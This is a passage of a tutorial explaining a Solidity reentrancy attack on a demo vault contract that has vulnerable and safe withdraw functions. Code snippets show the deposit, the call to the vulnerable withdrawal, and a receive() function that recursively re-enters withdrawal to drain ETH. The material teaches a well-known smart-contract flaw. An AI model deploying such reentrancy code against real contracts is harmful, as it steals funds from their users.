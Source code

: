 
### 🔁 Resetting State

```solidity
 
attackingSafe = false;
attackCount = 0;
```

We make sure the contract knows this is a **vulnerable attack**, not a test against the safe version.

And we reset the loop counter to start fresh.

---

### 🎣 The Bait: Deposit ETH into the Vault

```solidity
targetVault.deposit{value: msg.value}();
```

We make a legitimate deposit into the vault. This updates our balance in the vault’s internal mapping — making us eligible to withdraw that ETH.

At this point, the vault is holding our 1 ETH safely… or so it thinks.

---

### 🚪 The Entry Point: Trigger the Withdrawal

```solidity
 targetVault.vulnerableWithdraw();
```

Now we call the vault’s vulnerable withdrawal function.

This function:

- **Checks our balance**
- **Sends us the ETH**
- **Only afterward** sets our balance to zero

And **that’s the mistake** — because right when the vault sends us ETH, our contract’s `receive()` function gets triggered...

# ⚡ `receive()` – Where the Reentrancy Magic Happens

```solidity
 receive() external payable {
    attackCount++;

    if (!attackingSafe && address(targetVault).balance >= 1 ether && attackCount < 5) {
        targetVault.vulnerableWithdraw();
    }

    if (attackingSafe) {
        targetVault.safeWithdraw(); // This will fail
    }
}
```
